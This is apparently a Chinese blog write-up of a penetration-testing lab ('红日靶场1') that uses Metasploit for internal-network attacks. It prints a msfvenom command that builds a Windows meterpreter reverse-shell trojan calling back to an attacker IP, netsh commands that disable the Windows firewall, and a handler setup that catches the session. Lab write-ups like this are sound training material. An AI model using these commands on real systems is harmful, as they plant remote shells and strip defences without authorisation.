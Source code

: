 ```yaml
---
title: 红日靶场1
date: 2023/5/1 10:26
categories:
- 渗透测试
tag:
- 靶场
---
```


> 通过MSF对红日靶场1进行内网渗透
>
> 获得边界服务器权限没啥好写的就不写了



## 获得外网主机权限

### 木马生成

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.41.128  -f exe > reverse.exe
```

**reverse_tcp与bind_tcp的区别**

![img](../../../images/1605154-20200928100839725-1360637319-1686283281460.png)

### 防火墙关闭

#### windows

- 查看状态

  ```shell
  netsh advfirewall show allprofile state
  ```

- 更改状态

  ```shell
  netsh advfirewall set allprofile state on/off
  ```

  不关的话，执行木马就会弹出这个

  ![image-20230324195048832](../../../images/image-20230324195048832-1686283281461.png)

### 获得主机session

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp # 要设置木马的生成payload，不然连不上
run
```
